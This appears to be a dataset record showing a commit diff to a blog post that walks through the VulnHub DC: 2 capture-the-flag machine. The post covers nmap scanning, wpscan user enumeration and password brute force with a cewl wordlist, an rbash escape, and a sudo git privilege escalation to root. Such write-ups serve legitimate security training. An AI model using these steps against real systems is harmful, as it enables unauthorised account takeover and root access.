

Before and after one commit to firatfolcay/arszilla.github.io, a Jekyll site: the page built from _posts/2019-07-12-vulnhub-dc_2.markdown, in a window 1280 px wide and 1400 px high, scrolled down 1601 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Updated DC: 2

````diff
--- a/_posts/2019-07-12-vulnhub-dc_2.markdown
+++ b/_posts/2019-07-12-vulnhub-dc_2.markdown
@@ -7,10 +7,9 @@
 ---
 
 ## Information
-DC: 2 is the second box on the VulnHub series *DC* by [DCAU][DCAU]. It starts off with a simple Wordpress website and
-moves on to escaping `rbash` on a `SSH`. There are five flags available but flags 1 through 4 exist to give you hints
-on what to do next to capture the next flag. As a result, this writeup will only talk about how to capture the root
-flag only.
+DC: 2 is the second box on the VulnHub series *DC* by [DCAU][DCAU]. There are 5 flags available but flags 1 through 4
+exist to give you hints on what to do next to capture the next flag. As a result, this writeup will only talk about how
+to capture the root flag only.
 
 ## Tasks
 - Capture the root flag
@@ -22,24 +21,12 @@
 - Use `vi` and `export PATH` to escape `rbash`
 - Use `git`s `GTFOBin` to access escalate privileges to `root`
 
-## Tools Used
-- `nmap`
-- `wpscan`
-- `cewl`
-- `ssh`
-- `vi`
-- `LinEnum`
-- `git`
-
 ## Walkthrough
 ### nmap
 We start off with a basic `nmap` scan.
 
 ```
 $ nmap -sC -sV 192.168.2.190
-
-[...]
-
 PORT     STATE SERVICE VERSION
 80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
 |_http-generator: WordPress 4.7.10
@@ -53,8 +40,6 @@
 |_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
 MAC Address: 18:D6:C7:B8:FD:A1 (Tp-link Technologies)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
-
-[...]
 ```
 
 `nmap` shows that we have `HTTP` on Port 80 and `SSH` on Port 7744.
@@ -69,20 +54,6 @@
 
 ```
 $ wpscan --url http://dc-2/ -e u
-_______________________________________________________________
-        __          _______   _____
-        \ \        / /  __ \ / ____|
-         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
-          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
-           \  /\  /  | |     ____) | (__| (_| | | | |
-            \/  \/   |_|    |_____/ \___|\__,_|_| |_|
-
-        WordPress Security Scanner by the WPScan Team
-                       Version 3.5.4
-          Sponsored by Sucuri - https://sucuri.net
-      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
-_______________________________________________________________
-
 [+] URL: http://dc-2/
 
 Interesting Finding(s):
@@ -139,21 +110,6 @@
 $ cewl http://dc-2/ -w cewl.txt
 
 $ wpscan --url http://dc-2/ --passwords cewl.txt --usernames usernames.txt
-_______________________________________________________________
-        __          _______   _____
-        \ \        / /  __ \ / ____|
-         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
-          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
-           \  /\  /  | |     ____) | (__| (_| | | | |
-            \/  \/   |_|    |_____/ \___|\__,_|_| |_|
-
-
-        WordPress Security Scanner by the WPScan Team
-                       Version 3.5.4
-          Sponsored by Sucuri - https://sucuri.net
-      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
-_______________________________________________________________
-
 [...]
 
 [+] Enumerating Config Backups (via Passive and Aggressive Methods)
@@ -205,6 +161,7 @@
 ::shell
 
 tom@DC-2:~$ cd /tmp
+
 tom@DC-2:~$ pwd
 /tmp
 
@@ -229,7 +186,7 @@
 ```
 $ sudo git -p help config
 [sudo] password for tom:
-tom is not in the sudoers file.  This incident will be reported.
+tom is not in the sudoers file. This incident will be reported.
 
 $ su - jerry
 Password:
@@ -281,6 +238,6 @@
 
 And by that, we've captured the `root` flag.
 
-[DCAU]: https://twitter.com/DCAU7
-[Wordpress - Homepage]: /images/posts/2019-07-12-vulnhub-dc_2/Wordpress%20-%20Homepage.png
-[GTFOBin]: https://gtfobins.github.io/gtfobins/git/#sudo
+[DCAU]:                     https://twitter.com/DCAU7
+[Wordpress - Homepage]:     /images/posts/2019-07-12-vulnhub-dc_2/Wordpress%20-%20Homepage.png
+[GTFOBin]:                  https://gtfobins.github.io/gtfobins/git/#sudo
````
